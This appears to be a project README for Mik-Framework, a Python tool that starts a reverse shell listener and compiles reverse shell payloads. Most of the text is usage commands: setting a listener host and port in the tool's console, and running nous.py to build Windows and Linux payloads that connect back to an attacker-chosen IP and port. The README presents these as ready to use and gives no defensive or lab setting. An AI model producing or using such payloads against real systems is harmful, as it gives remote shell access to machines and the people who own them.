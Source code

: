 # Mik-Framework

Mik-Framework is a Python tool for starting a reverse shell server and compiling payloads for Windows and Linux.

## Usage

To start the reverse shell server, run the following command:

~/Mik-Framework $ python3 mikconsole.py

This will open the Mik-Framework console, where you can interact with the available modules. To start the reverse shell server, follow these steps:

1. Select the revshell module:
   mik> use revshell

2. Configure the host and port:
   mik-revshell> set host 0.0.0.0
   mik-revshell> set port 4545

3. Run the server:
   mik-revshell> run

## Payload Compilation

### Windows

To compile a payload for Windows, use the following command:

python3 nous.py -p windows_revshell --host 127.0.0.1 --port 4545 -o payload.c --mingw

### Linux

To compile a payload for Linux, use the following command:

python3 nous.py -p linux_revshell --host 127.0.0.1 --port 4545 -o payload.c

Make sure to replace 127.0.0.1 with the IP address of your server and 4545 with the port you want to use.

## Creating New Modules

You can create new modules to extend the functionality of Mik-Framework. Simply follow the existing module structure and integrate it into the framework.
